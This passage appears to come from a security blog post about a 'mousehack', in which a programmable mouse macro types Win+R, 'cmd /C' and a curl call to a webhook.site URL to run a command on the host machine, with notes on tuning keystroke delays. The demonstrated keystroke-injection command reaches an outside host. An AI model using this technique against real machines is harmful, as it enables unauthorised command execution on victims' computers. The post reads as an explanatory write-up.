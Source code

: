 Note: The "Show key down/key up" checkbox is disabled to make the macro more readable.

Breakdown of the macro:
{% highlight bash %}

Win + R  # Shortcut to open the Run program
cmd /C   # Invoke command prompt and pass a command to it
curl https://webhook.site/103ee47d-7ac7-49aa-98ac-e74b4fb2bd02 # The curl call
Enter    # to execute
{%endhighlight%}

Once again we can play around with the delay between keystrokes to speed the macro (note the 25ms between invoking "Run" and curl, this is to give enough time to actually open the Run dialog before typing):

![](/assets/mousehack/images/curl_macro_optimized.png)

